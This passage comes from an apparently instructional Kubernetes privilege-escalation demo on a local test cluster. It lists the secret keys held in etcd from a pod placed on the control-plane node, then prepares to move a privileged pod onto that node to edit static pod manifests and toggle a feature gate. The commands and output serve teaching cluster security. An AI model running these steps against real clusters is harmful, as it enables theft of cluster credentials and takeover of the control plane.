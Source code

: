 7. Etcd contains a lot of interesting information about the cluster, not least of which is secrets. List them out with
   `kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets`

   In Kubernetes 1.23 or older, you would see a long list like this:
   ```shell
   $ kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
   /registry/secrets/default/default-token-rwr67
   /registry/secrets/default/webadmin-token-r9h69
   /registry/secrets/ingress-nginx/default-token-rmt2h
   /registry/secrets/ingress-nginx/ingress-nginx-admission
   /registry/secrets/ingress-nginx/ingress-nginx-admission-token-s5rql
   /registry/secrets/ingress-nginx/ingress-nginx-token-68htr
   /registry/secrets/kube-node-lease/default-token-dfc9c
   /registry/secrets/kube-public/default-token-m8zph
   /registry/secrets/kube-system/attachdetach-controller-token-wx7k9
   /registry/secrets/kube-system/bootstrap-signer-token-zfksz
   /registry/secrets/kube-system/bootstrap-token-abcdef
   /registry/secrets/kube-system/calico-kube-controllers-token-cjntm
   /registry/secrets/kube-system/calico-node-token-rfps8
   /registry/secrets/kube-system/certificate-controller-token-krhs2
   /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fjkn5
   ...
   ```

   ... and the last row above (`clusterrole-aggregation-controller-token-*`) is a role which rights we can use. Unfortunately,
   (for us), this demo is running a newer version and in 1.24 a fearture gate was turned on by default that stops creating Secret objects for
   service account tokens so the list we are seeing is more like this:
   ```shell
   $ kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
   /registry/secrets/ingress-nginx/ingress-nginx-admission
   /registry/secrets/kube-system/bootstrap-token-abcdef
   ```
   
8. You will note that I said that is a feature gate, and the nice thing (for us) about gates is they can be toggled. As you saw above, the
   `etcdclient` pod was able to be started on the `kind-control-plane` node.  We did this in order to mount the credentials needed which
   exist on the filesystem of that host. Conveniently, that host also contains static pod configurations for the Kubernetes control plane processes so we simply need to modify that gate in those files.
   First, lets redeploy our `nonroot_priv` pod onto that node by editing the `demo_yamls/nonroot_priv.yaml` file to add `nodeName: kind-control-plan` to it's spec.
   Open the file in your editor and add that field somewhere under the `spec:` section
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
   name: nonroot-priv
   spec:
      nodeName: kind-control-plane
   ...
   ```
   Next, we will delete the old pod and redeploy this one, checking to make sure it got provisioned on the right node:
   ```shell
   $ kubectl delete -f demo_yamls/nonroot_priv.yaml
   pod "nonroot-priv" deleted
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   $ kubectl get pod -o wide
   NAME                        READY   STATUS    RESTARTS   AGE     IP               NODE                 NOMINATED NODE   READINESS GATES
   etcdclient                  1/1     Running   0          37m     172.19.0.3       kind-control-plane   <none>           <none>
   ```
